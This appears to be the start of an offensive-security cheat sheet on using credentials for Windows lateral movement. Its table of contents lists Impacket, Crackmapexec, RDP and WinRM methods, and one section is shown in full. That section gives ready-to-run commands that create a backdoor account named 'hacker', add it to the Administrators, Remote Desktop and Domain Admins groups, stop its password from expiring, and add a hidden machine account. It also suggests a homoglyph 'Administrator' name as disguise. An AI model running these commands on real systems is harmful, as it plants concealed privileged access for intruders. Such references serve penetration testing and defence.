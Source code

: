 # Windows - Using credentials

## Summary

* [Get credentials](#get-credentials)
    * [Create your credential](#create-your-credential)
    * [Guest Credential](#guest-credential)
    * [Retail Credential](#retail-credential)
    * [Sandbox Credential](#sandbox-credential)
* [Crackmapexec](#crackmapexec)
* [Impacket](#impacket)
    * [PSExec](#psexec)
    * [WMIExec](#wmiexec)
    * [SMBExec](#smbexec)

* [RDP Remote Desktop Protocol](#rdp-remote-desktop-protocol)
* [Powershell Remoting Protocol](#powershell-remoting-protocol)
    * [Powershell Credentials](#powershell-credentials)
    * [Powershell PSSESSION](#powershell-pssession)
    * [Powershell Secure String](#powershell-secure-strings)
* [SSH Protocol](#ssh-protocol)
* [WinRM Protocol](#winrm-protocol)
* [WMI Protocol](#wmi-protocol)

* [Other methods](#other-methods)
    * [PsExec - Sysinternal](#psexec-sysinternal)
    * [Mount a remote share](#mount-a-remote-share)
    * [Run as another user](#run-as-another-user)

## Get credentials

### Create your credential

```powershell
net user hacker Hcker_12345678* /add /Y
net localgroup administrators hacker /add
net localgroup "Remote Desktop Users" hacker /add # RDP access
net localgroup "Backup Operators" hacker /add # Full access to files
net group "Domain Admins" hacker /add /domain

# enable a domain user account
net user hacker /ACTIVE:YES /domain

# prevent users from changing their password
net user username /Passwordchg:No

# prevent the password to expire
net user hacker /Expires:Never

# create a machine account (not shown in net users)
net user /add evilbob$ evilpassword

# homoglyph Aԁmіnistratοr (different of Administrator)
Aԁmіnistratοr
```
